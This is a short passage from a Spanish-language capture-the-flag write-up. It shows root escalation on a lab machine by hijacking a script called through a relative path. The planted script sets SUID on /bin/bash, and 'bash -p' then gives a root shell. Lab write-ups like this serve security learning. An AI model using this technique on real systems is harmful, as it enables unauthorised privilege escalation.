 Donde vi vemos la opcion de ```full-checkup``` esta ejecutando un archivo sh:

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Donde el script ```full-checkup.sh``` no se le indica la ruta, es decir, se ejecuta desde el directorio donde este el usuario, asi que... ¿Por que no crearlo?, me ire al directorio /tmp y dentro del script, le asignare permisos SUID a /bin/bash:

```
#!/bin/bash
chmod +s /bin/bash
```

Ahora solo ponemos: ```bash -p``` y ya somos root

```
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
f46884c23c53cc716ac549803*******
```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/busqueda/waifu.gif)

